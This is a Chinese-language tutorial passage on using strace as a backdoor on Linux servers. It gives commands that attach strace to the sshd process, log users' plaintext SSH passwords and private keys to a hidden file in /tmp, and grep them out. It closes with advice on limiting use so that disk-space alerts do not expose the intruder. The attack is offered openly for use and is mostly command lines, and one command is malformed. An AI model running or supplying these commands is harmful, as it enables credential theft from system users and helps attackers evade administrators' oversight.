 # 4. 监控功能—strace后门

`strace`是个功能强大的Linux调试分析诊断工具，可用于跟踪程序执行时进程系统调用(system  call)和所接收的信号，尤其是针对源码不可读或源码无法再编译的程序。在Linux系统中，用户进程不能直接访问计算机硬件设备。当进程需要访问硬件设备(如读取磁盘文件或接收网络数据等)时，必须由用户态模式切换至内核态模式，通过系统调用访问硬件设备。`strace`可跟踪进程产生的系统调用，包括参数、返回值和执行所消耗的时间。若`strace`没有任何输出，并不代表此时进程发生阻塞；也可能程序进程正在执行某些不需要与系统其它部分发生通信的事情。`strace`从内核接收信息，且无需以任何特殊方式来构建内核。

而且strace可以当作一个键盘记录的后门。

## 4.1. 记录sshd明文

这里首先记录密码，等待用户下次使用ssh进行连接，连接后就会在你设置的这个目录中存储明文密码。

```
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)  ##记录ssh登录密码存储到/tmp/.sshd.log文件中。

grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log  ##查看这个文件。
```

![image-20230823134310698](assets/image-20230823134310698.png)

这里使用筛选来查找就是为了更加的方面查找到密码，否则可以去看看，该文件中登录一次的内容都很多，靠肉眼很难查找到。

## 4.2. 记录sshd私钥

```
(strace -f -F -p ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'} -t -e trace=read,write -s 4096 2> /tmp/.sshd.log &)  ##这里也是同样的记录私钥到该文件中。

grep ‘PRIVATE KEY’ /tmp/.sshd.log  ##读取私钥。
```

## 4.3. 问题

这个命令文件存在一个很大的问题就是，会一直记录登陆的字节流，可以去查看一下文件，这个文件会越来越大，所以如果真实环境下，还是少用该方式吧，避免由于文件占用过大，导致硬盘报警，从而被发现。

```
ls -al /tmp/.sshd.log
```
